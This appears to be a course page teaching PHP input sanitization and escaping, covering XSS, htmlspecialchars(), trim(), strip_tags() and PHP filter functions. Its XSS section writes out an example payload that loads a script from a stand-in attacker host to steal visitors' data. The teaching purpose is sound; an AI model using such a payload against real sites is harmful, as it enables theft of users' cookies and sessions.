 ```yaml
---
layout: base
title: PHP - Sanitization
course: SDEV255
---
```


<!-- - Escape output
  - htmlspecialchars()
  - htmlentities()
  - strip_tags()
- Sanitize input
  - trim()
  - https://www.php.net/manual/en/function.filter-var.php
    - filter_var()
    - filter_var_array()
    - filter_input()
    - filter_input_array()
    - filter_has_var()
    - filter_list() -->

- [Sanitization](#sanitization)
  - [Validation vs Sanitization](#validation-vs-sanitization)
  - [Purpose of Sanitization](#purpose-of-sanitization)
  - [Escaping Values](#escaping-values)
    - [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
      - [How XSS Works](#how-xss-works)
      - [XSS Example](#xss-example)
    - [htmlspecialchars()](#htmlspecialchars)
  - [Removing Unwanted Values](#removing-unwanted-values)
    - [trim()](#trim)
    - [strip_tags()](#strip_tags)
  - [Filter Functions](#filter-functions)
    - [Input vs Var, Single vs Array](#input-vs-var-single-vs-array)

# Sanitization

## Validation vs Sanitization

**Validation** - is the process of ensuring that the input matches the expected format, range, type, length, etc.

**Sanitization** - is the process of removing unwanted characters, whitespace, HTML tags, etc.

## Purpose of Sanitization

- Prevents malicious code from being injected into application
- Prevents unwanted characters from being
  - Displayed to the user
  - Stored in database
  - Stored in files
  - Sent to other applications

## Escaping Values

**Escaping** - is the process of converting special characters to their HTML entity equivalents.

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** - is a type of injection attack where malicious scripts are injected into trusted websites.

The scripts may then:

- Steal cookies and session tokens
- Redirect the user to another website
- Send content to other applications

#### How XSS Works

1. Hacker visits a website and probes for query string vulnerabilities.
<figure>
    <span>
        <img src="images/hacker.jpg" style="width:40%;">
    </span>
</figure>

2. Hacker finds query string named `q` is not sanitized.

3. Hacker tricks other people into visiting website with following query string: `q=<script src=http://really-terrible-site/steal-data.js></script>`

4. JS file runs on victim's browser and sends data to hacker's website.

5. Hacker sells data on the dark web and buys yacht.

<figure>
    <span>
        <img src="https://media.boatsnews.com/src/images/news/articles/ima-computer-science-screen-37738.webp" style="width:40%">
    </span>
</figure>

#### XSS Example

<p class="demo">Walkthrough</p>

[Text: Example of an XSS Attack](http://localhost/phpbook/section_b/c06/)

### htmlspecialchars()

- Converts special characters to HTML entities
- May optionally specify which characters to convert and the character encoding

```php
$input = '<script>alert("XSS");</script>';
<p><?php echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8'); ?></p
```

## Removing Unwanted Values

### trim()

- Removes whitespace from beginning and end of a string
- May optionally specify which characters to remove

```php
$cleanedInput = trim($userInput);
```

### strip_tags()

- Removes HTML tags from a string
- May optionally specify which tags to allow

```php
$cleanedInput = strip_tags($userInput);
```

## Filter Functions

PHP has built-in functions for validating and sanitizing input.

Each function takes a value and a filter type as parameters.

Each function returns the filtered value or `false` if the value is not valid.

See [PHP: Filter extension](https://www.php.net/manual/en/book.filter.php).

| Function               | Description                                                             |
| ---------------------- | ----------------------------------------------------------------------- |
| `filter_var()`         | Filters a single variable with a specified filter.                      |
| `filter_var_array()`   | Filters multiple variables with a specified filter or array of filters. |
| `filter_input()`       | Gets a specific external variable by name and optionally filters it.    |
| `filter_input_array()` | Gets multiple external variables and optionally filters them.           |
| `filter_has_var()`     | Checks if a variable of a specified input type exists.                  |

### Input vs Var, Single vs Array

- `filter_input()` and `filter_input_array()` are used to filter **input** from external sources.
  - `$_GET`
  - `$_POST`
- `filter_var()` and `filter_var_array()` are used to filter **variables**.
  - `$var1`
  - `$var2`
- The "array" versions of the functions are used to filter multiple values at once.

..........................................................

<p class="demo">Walkthrough</p>

[Text: Validate Form](http://localhost/phpbook/section_b/c06/validate-form.php)

<p class="demo">Walkthrough</p>

[Text: Validate Form Using Filters](http://localhost/phpbook/section_b/c06/validate-form-using-filters.php)

**To come:**

- DB sanatization
  - Prepared statements
  - Parameterized queries
